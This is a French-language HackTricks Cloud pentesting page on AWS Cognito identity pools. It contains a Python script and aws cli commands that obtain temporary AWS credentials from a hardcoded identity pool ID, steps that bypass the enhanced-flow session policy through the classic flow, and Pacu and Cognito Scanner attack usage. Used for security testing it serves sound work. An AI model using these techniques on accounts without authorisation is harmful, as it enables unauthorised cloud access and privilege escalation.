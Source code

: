 # Pools d'identité Cognito

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Avec un pool d'identité, vos utilisateurs peuvent **obtenir des identifiants AWS temporaires pour accéder aux services AWS**, tels qu'Amazon S3 et DynamoDB. Les pools d'identité prennent en charge les utilisateurs invités anonymes, ainsi que les fournisseurs d'identité suivants que vous pouvez utiliser pour authentifier les utilisateurs pour les pools d'identité :

* Pools d'utilisateurs Amazon Cognito
* Connexion sociale avec Facebook, Google, Login with Amazon et Sign in with Apple
* Fournisseurs OpenID Connect (OIDC)
* Fournisseurs d'identité SAML
* Identités authentifiées par les développeurs

### Cognito Sync

Pour générer des sessions de pool d'identité, vous devez d'abord **générer un ID d'identité**. Cet ID d'identité est l'**identification de la session de cet utilisateur**. Ces identifications peuvent avoir jusqu'à 20 ensembles de données qui peuvent stocker jusqu'à 1 Mo de paires clé-valeur.

Cela est **utile pour conserver des informations sur un utilisateur** (qui utilisera toujours le même ID d'identité).

De plus, le service **cognito-sync** est le service qui permet de **gérer et synchroniser ces informations** (dans les ensembles de données, en envoyant des informations en flux et des messages SNS...).

### Outils pour le pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), le framework d'exploitation AWS, inclut désormais les modules "cognito\_\_enum" et "cognito\_\_attack" qui automatisent l'énumération de tous les actifs Cognito dans un compte et signalent les configurations faibles, les attributs des utilisateurs utilisés pour le contrôle d'accès, etc., et automatisent également la création d'utilisateurs (y compris le support MFA) et l'escalade de privilèges basée sur des attributs personnalisés modifiables, des identifiants de pool d'identité utilisables, des rôles assumables dans les tokens d'identité, etc.

Pour une description des fonctions des modules, voir la partie 2 du [billet de blog](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). Pour les instructions d'installation, consultez la page principale de [Pacu](https://github.com/RhinoSecurityLabs/pacu).

#### Utilisation

Exemple d'utilisation de cognito\_\_attack pour tenter la création d'utilisateur et tous les vecteurs d'escalade de privilèges contre un pool d'identité et un client de pool d'utilisateurs donnés :
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
Utilisation d'exemple de cognito\_\_enum pour rassembler tous les user pools, user pool clients, identity pools, utilisateurs, etc. visibles dans le compte AWS actuel :
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) est un outil CLI en python qui implémente différentes attaques sur Cognito, y compris la création de compte non désirée et l'escalade de privilèges dans le pool d'identités.

#### Installation
```bash
$ pip install cognito-scanner
```
#### Utilisation
```bash
$ cognito-scanner --help
```
Pour plus d'informations, consultez https://github.com/padok-team/cognito-scanner

## Accès aux rôles IAM

### Non authentifié

La seule chose qu'un attaquant doit savoir pour **obtenir des identifiants AWS** dans une application Cognito en tant qu'utilisateur non authentifié est l'**ID du bassin d'identités**, et cet **ID doit être codé en dur** dans l'**application** web/mobile pour qu'elle puisse l'utiliser. Un ID ressemble à ceci : `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (il n'est pas possible de le forcer par bruteforce).

{% hint style="success" %}
Le **rôle IAM Cognito non authentifié créé via est appelé** par défaut `Cognito_<nom du bassin d'identités>Unauth_Role`
{% endhint %}

Si vous trouvez un ID de bassins d'identités codé en dur et qu'il permet aux utilisateurs non authentifiés, vous pouvez obtenir des identifiants AWS avec :
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
Ou vous pourriez utiliser les commandes **aws cli** suivantes :
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Notez que par défaut, un utilisateur cognito non authentifié **NE PEUT PAS avoir de permission, même si elle a été attribuée via une politique**. Consultez la section suivante.
{% endhint %}

### Authentification améliorée vs authentification de base

La section précédente suivait le **flux d'authentification amélioré par défaut**. Ce flux établit une [**politique de session**](../../aws-basic-information/#session-policies) **restrictive** pour la session du rôle IAM générée. Cette politique ne permettra à la session d'[**utiliser que les services de cette liste**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (même si le rôle avait accès à d'autres services).

Cependant, il existe un moyen de contourner cela, si le **pool d'identités a le "Flux de base (Classique)" activé**, l'utilisateur pourra obtenir une session en utilisant ce flux qui **n'aura pas cette politique de session restrictive**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Si vous recevez cette **erreur**, c'est parce que le **flux de base n'est pas activé (par défaut)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Ayant un ensemble de crédentials IAM, vous devriez vérifier [quels accès vous avez](../../#whoami) et essayer d'[escalader les privilèges](../../aws-privilege-escalation/).

### Authentifié

{% hint style="info" %}
Rappelez-vous que les **utilisateurs authentifiés** se verront probablement accorder **différentes permissions**, donc si vous pouvez **vous inscrire dans l'application**, essayez de le faire et obtenez les nouvelles crédentials.
{% endhint %}

Il pourrait également y avoir des **rôles** disponibles pour les **utilisateurs authentifiés accédant au Identity Pool**.

Pour cela, vous pourriez avoir besoin d'accéder au **fournisseur d'identité**. Si c'est un **Cognito User Pool**, peut-être pouvez-vous abuser du comportement par défaut et **créer un nouvel utilisateur vous-même**.

{% hint style="success" %}
Le **rôle IAM Cognito authentifié créé via est appelé** par défaut `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

Quoi qu'il en soit, **l'exemple suivant** suppose que vous vous êtes déjà connecté à l'intérieur d'un **Cognito User Pool** utilisé pour accéder au Identity Pool (n'oubliez pas que d'autres types de fournisseurs d'identité pourraient également être configurés).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtenez l'identity_id de la réponse de la commande précédente
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# Dans l'IdToken, vous pouvez trouver les rôles auxquels un utilisateur a accès en raison des groupes User Pool
# Utilisez --custom-role-arn pour obtenir des crédentials pour un rôle spécifique
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
Il est possible de **configurer différents rôles IAM en fonction du fournisseur d'identité** avec lequel l'utilisateur se connecte ou même juste en fonction **de l'utilisateur** (en utilisant des claims). Par conséquent, si vous avez accès à différents utilisateurs via le même fournisseur ou différents fournisseurs, il pourrait être **intéressant de se connecter et d'accéder aux rôles IAM de tous**.
{% endhint %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
